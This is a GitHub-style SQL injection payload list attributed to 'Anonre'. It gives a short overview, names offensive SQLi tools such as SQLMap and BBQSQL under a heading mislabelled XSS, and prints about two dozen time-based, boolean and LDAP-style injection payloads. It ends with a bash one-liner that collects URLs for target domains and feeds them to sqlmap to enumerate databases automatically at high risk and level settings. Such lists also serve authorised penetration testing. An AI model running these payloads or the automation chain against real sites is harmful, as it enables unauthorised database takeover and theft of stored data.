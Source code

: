 ### SQL Injction ( SQLI ) Payload List
### Created By Anonre

##### Overview : 

SQL injection is a code injection technique that might destroy your database. SQL injection is one of the most common web hacking techniques. SQL injection is the placement of malicious code in SQL statements, via web page input.
#### XSS Vulneability Scanner Tool's :

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL injection in HTTP-Headers (MySQL/MariaDB)


#### SQLI Payload List :

```
---------------------------------------------------------------------------------
<!-- Project Name  : SQL Injction ( SQLI ) Vulnerability Payload List -->
<!--        Author : Joel Indra -->
<!--      Linkedin : https://www.linkedin.com/in/joelindra/ -->
<!--        GitHub : https://github.com/anonre/ -->
<!--       Twitter : https://twitter.com/joelindra -->
---------------------------------------------------------------------------------
---------------------------------------------------------------------------------

" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
' OR 1=1--
' OR 1=0--
%27%20or%201=1
*(|(object=*))
)%20or%20('x'='x
%20or%201=1
1) or pg_sleep(__TIME__)--
/**/or/**/1/**/=1
' or username like '%
);waitfor delay '0:0:__TIME__'--
or isNULL(1/0) /*
x' or 1=1 or 'x'='y

```
#### SQLI Automation Bash Scripting Exploit :
```
cat target.txt | assetfinder | httpx -silent | waybackurls | tee -a potential.txt ; gf sqli potential.txt >> sqli.txt ; sqlmap -m sqli.txt --dbs --batch --risk 3 --level 3
```
